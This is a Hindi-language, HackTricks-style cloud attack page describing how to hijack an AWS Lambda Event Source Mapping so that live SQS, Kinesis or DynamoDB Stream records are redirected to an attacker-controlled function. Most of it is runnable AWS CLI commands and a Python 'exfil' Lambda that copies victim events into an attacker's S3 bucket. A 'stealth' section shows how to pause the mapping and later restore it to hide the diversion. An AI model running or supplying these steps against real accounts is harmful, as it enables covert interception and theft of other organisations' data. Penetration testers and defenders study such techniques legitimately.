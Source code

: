 # AWS - Hijack Event Source Mapping के द्वारा Stream/SQS/Kinesis को Attacker Lambda पर Redirect करना

{{#include ../../../../banners/hacktricks-training.md}}

`UpdateEventSourceMapping` का दुरुपयोग कर किसी मौजूदा Event Source Mapping (ESM) के target Lambda function को बदलें ताकि DynamoDB Streams, Kinesis, या SQS से रिकॉर्ड attacker-controlled function को डिलीवर हों। यह बिना producers या मूल function के कोड को छुए लाइव डेटा को चुपचाप भटका देता है।

## प्रभाव
- producer apps या victim code को संशोधित किए बिना मौजूदा streams/queues से लाइव रिकॉर्ड्स को मोड़ना और पढ़ना।
- victim के ट्रैफ़िक को एक rogue function में प्रोसेस करके संभावित डेटा निष्कासन या लॉजिक में छेड़छाड़।

## आवश्यक अनुमतियाँ
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- attacker-controlled Lambda को डिप्लॉय या रेफरेंस करने की क्षमता (`lambda:CreateFunction` या मौजूदा का उपयोग करने की अनुमति)।

## चरण

1) victim function के लिए event source mappings को सूचीबद्ध करें
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].EventSourceArn' --output text)
```
2) attacker-controlled रिसीवर Lambda तैयार करें (same region; ideally similar VPC/runtime)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
print(json.dumps(event)[:3000])
b = os.environ.get('EXFIL_S3')
if b:
k = f"evt-{int(time.time())}.json"
boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
--function-name ht-esm-exfil \
--runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
--handler exfil.lambda_handler --zip-file fileb://exfil.zip \
--query FunctionArn --output text)
```
3) mapping को attacker function की ओर पुनर्निर्देशित करें
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```
4) स्रोत पर एक इवेंट जनरेट करें ताकि mapping ट्रिगर हो (उदाहरण: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```
5) सत्यापित करें कि attacker function बैच प्राप्त करता है
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```
6) वैकल्पिक stealth
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```
नोट:
- SQS ESMs के लिए, queue को process कर रहे Lambda की execution role को `sqs:ReceiveMessage`, `sqs:DeleteMessage`, और `sqs:GetQueueAttributes` की आवश्यकता होती है (प्रबंधित नीति: `AWSLambdaSQSQueueExecutionRole`).
- ESM UUID वही रहता है; केवल इसका `FunctionArn` बदला जाता है, इसलिए producers और source ARNs अपरिवर्तित रहते हैं.

{{#include ../../../../banners/hacktricks-training.md}}
